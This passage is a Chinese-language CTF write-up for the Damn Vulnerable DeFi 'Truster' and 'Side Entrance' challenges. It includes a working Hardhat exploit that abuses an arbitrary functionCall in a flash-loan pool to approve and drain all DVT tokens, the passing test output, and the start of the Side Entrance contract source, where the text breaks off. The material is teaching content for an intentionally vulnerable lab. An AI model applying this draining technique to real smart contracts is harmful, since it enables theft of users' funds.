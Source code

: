 其中主要观察flashloasn函数 其中有两种类型的地址 borrower和target,同时还调用了functionCall[functionCall](https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCall-address-bytes-)

这样 我们就可以我们的pool合约与target和data合约进行交互, 我们可以用pool的msg.sender作为调用者

其实就是`target.functionCall(data)` 可以以 `TrusterLenderPool` 的身份调用任意合约的任意函数

因为使用了ERC20.那么可以使用`approve`来完成这笔交易[](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20)[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/5.x/api/token/erc20#IERC20-approve-address-uint256-)

我们要将掏空100W个闪电贷, 因为闪电贷原理,我们无法在用一个交易中窃取. 那么我们可以创建另一组交易

被闪电贷这笔交易允许,然后再另一个交易中获取代币

我们可以让Pool合约批准我们使用其所有 DVT 代币。然后用 transferFrom调用

Exp:

```js
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        let interface = new ethers.utils.Interface(\["function approve(address spender, uint256 amount)"\])  
        let data = interface.encodeFunctionData("approve", \[player.address, TOKENS\_IN\_POOL\]); //！  

        await pool.connect(player).flashLoan(0, player.address, token.address, data);  
        await token.connect(player).transferFrom(pool.address, player.address, TOKENS\_IN\_POOL)  
    });  
//注意0只是为了实现一个通证
```

run:

```js
\[Challenge\] Truster  
  ✔ Execution (42ms)  
1 passing (2s)
```

Challenge #4 - Side Entrance
----------------------------

> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
> 
> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
> 
> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

这次挑战的内容：从余额 1 ETH 开始，通过从池中取出所有 ETH 来通过挑战。

对于这把challenge，我们先看一下合约代码。也是比较简单,只有一个SideEntraceLenderPool.sol文件

```js
interface IFlashLoanEtherReceiver {  
    function execute() external payable;  
}  

contract SideEntranceLenderPool {  
    mapping(address => uint256) private balances; // 用户余额映射  

    error RepayFailed();  

    event Deposit(address indexed who, uint256 amount);  
    event Withdraw(address indexed who, uint256 amount);  

    function deposit() external payable {      //允许用户将 ETH 存入池子  
        unchecked {  
            balances\[msg.sender\] += msg.value;  
```